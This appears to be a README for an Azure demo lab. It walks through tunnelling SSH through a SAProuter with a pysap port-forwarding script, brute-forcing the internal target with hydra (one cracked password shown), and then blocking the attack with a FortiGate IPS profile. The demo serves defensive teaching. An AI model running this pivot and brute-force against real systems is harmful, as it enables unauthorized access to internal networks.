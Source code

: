 # How-to: Demo Environment

In this documentation you will find a guideline how the demo can be done.

### Communication diagram

```text
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |--------------->|                |                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |----------------------------------->|          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |<-----------------------------------|          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |<---------------|                |                   |          
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'

```



## Deplyoment

Deploy the Lab Enviroment in Azure.
Example output:
```bash
$ terraform init
...[snip]...
$ terraform apply --var-file variables.tfvars -auto-approve
...[snip]...
Outputs:

FGT-Username = "fgt-admin-user"
OS-Username = "saprouter-demo-admin"
Password = "<REDACTED>"
private_ip_attacker = "10.0.1.5"
private_ip_saprouter = "10.0.2.4"
private_ip_target = "10.0.3.4"
public_ip_attacker = "40.70.40.198"
public_ip_fortigate = "13.68.17.252"
```



## Connect to the Demo Environment

* Connect via SSH to the `attacker-vm`

```bash
$ ssh -i ssh_key.pem saprouter-demo-admin@40.70.40.198
...[snip]...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
saprouter-demo-admin@vm-attacker:~$
```



* check that SAProuter System is running by doing a test connect via netcat against Port 3299 on the `saprouter-vm`

```bash
$ nc 10.0.2.4 3299
bla
NI_RTERR(�����*ERR*1Network packet too big-93NI (network interface)75340/bas/753_REL/src/base/ni/nibuf.cpp2961NiBufIIn: message length 1651269898 exceeds max (10024)Mon Apr 26 07:29:22 20213SAProuter 40.4 on 'vm-saprouter'*ERR*
```

The Output should show a similar Error Message from the SAProuter application.

## Run the Demo

### BruteForce SSH through SAProuter

* start the SAProuter portforwarding for SSH to our Target

```bash
$ cd /opt/pysap/examples

$ python2 router_portfw.py -d 10.0.2.4 -p 3299 -t 10.0.3.4 -r 22 -a 127.0.0.1 -l 2222 --talk-mode raw
[*] Setting a proxy between 127.0.0.1:2222 and remote SAP Router 10.0.2.4:3299 (talk mode raw)
```

* validate that we are now listening in port `2222` on `localhost`

```bash
$ ss -tlnp
State       Recv-Q      Send-Q           Local Address:Port           Peer Address:Port     Process
LISTEN      0           4096             127.0.0.53%lo:53                  0.0.0.0:*
LISTEN      0           128                    0.0.0.0:22                  0.0.0.0:*
LISTEN      0           5                    127.0.0.1:2222                0.0.0.0:*         users:(("python2",pid=7808,fd=3))
LISTEN      0           128                       [::]:22                     [::]:*
```

* Do an brute-force against our `target-vm` through the `saprouted-vm`. (This can take about 3-5 min.)

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16983 login tries (l:17/p:999), ~1062 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
...[snip]...
[2222][ssh] host: 127.0.0.1   login: azureuser   password: Sojdlg123aljg
1 of 1 target successfully completed, 1 valid password found
```

### Show attack on FortiGate

* open URL of FortiGate admin panel `https://<IP>`

  ![image-20210428082021361](image-20210428082021361.png)

* Switch to `Log&Report - Forward Traffic` to view the attack traffic

  ![image-20210428083142185](image-20210428083142185.png)
  
  You will see, that FortiGate has detected `SAP.Router` traffic going into `saprouter-vm`but `SSH`traffic is coming out and going to our internal server.

### Prevent Attack

* Enable IPS policy which prevents SSH Bruteforce. Select the IPS profile `block_SSH_bruteforce`

  ![image-20210428084722530](image-20210428084722530.png)

* redo the SSH brute force attack to show, that our IPS will block the SSH attempts after some tries. This time it will never be successfull because IPS is blocking the attempts. So you can abort the attack after about 3 min.

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 145.00 tries/min, 145 tries in 00:01h, 855 to do in 00:06h, 16 active
```



* Show the attack in the IPS log

  ![image-20210428084938213](image-20210428084938213.png)

